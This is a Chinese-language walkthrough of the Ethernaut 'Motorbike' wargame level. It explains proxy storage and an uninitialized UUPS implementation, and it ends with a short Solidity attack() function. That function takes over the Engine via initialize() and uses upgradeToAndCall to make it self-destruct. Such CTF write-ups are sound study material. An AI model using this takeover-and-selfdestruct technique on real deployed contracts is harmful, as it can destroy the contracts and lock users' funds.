 # Motorbike

## Reference
[Motorbike](https://ethernaut.openzeppelin.com/level/25)

[Motorbike.sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/25-Motorbike/Motorbike.sol)

## 目标
让合约无法正常使用

## 分析
### 代理合约
1. `Proxy` 合约存储状态，`Engine` 合约存储逻辑
2. `Engine` 合约的数据更新不会影响 `Proxy` 合约的数据，因为 `Proxy` 只会使自己合约存储的数据
3. `Proxy` 合约的数据更新不会影响 `Engine` 合约的数据
4. `Proxy` 合约的数据更新只会影响 `Engine` 合约的函数判断，因为 `Proxy` 会把 `Engine` 合约逻辑拿到 `Proxy EVM` 环境中执行

### Engine-initialize
```solidity
    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }
```
1. `Proxy` 部署时执行了 `Engine` 合约的 `initialize()` 函数，但是 delegatecall 的数据更新仅存在 Proxy 合约中
2. 在 `Engine` 中数据存储仍然为空

#### Engine-upgradeAndCall()
```solidity
    function upgradeToAndCall(address newImplementation, bytes memory data)
    external
    payable
    {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }
```
1. 函数需要 `upgrade` 地址调用
2. 在 `Engine` 逻辑合约中，`upgrade` 通过调用 `initialize()` 函数更新
3. `_upgradeToAndCall` 更新逻辑地址并发起 delegatecall 的初始化交易

## 实现逻辑--修改admin为attack()合约地址
1. 部署 `Attack()` 合约，实现自毁函数
2. 调用 `Engine` 合约 `initialize()` 函数，注册成为 `upgrade`
3. 在 `Engine` 合约中调用 `upgradeAndCall()` 函数：
   1. `Attack()` 作为逻辑地址
   2. 初始化代码执行自毁函数
```solidity
    function attack() external {
        engine.initialize();
        bytes memory data = abi.encodeWithSelector(this.destroy.selector);
        engine.upgradeToAndCall(address(this), data);
    }
```
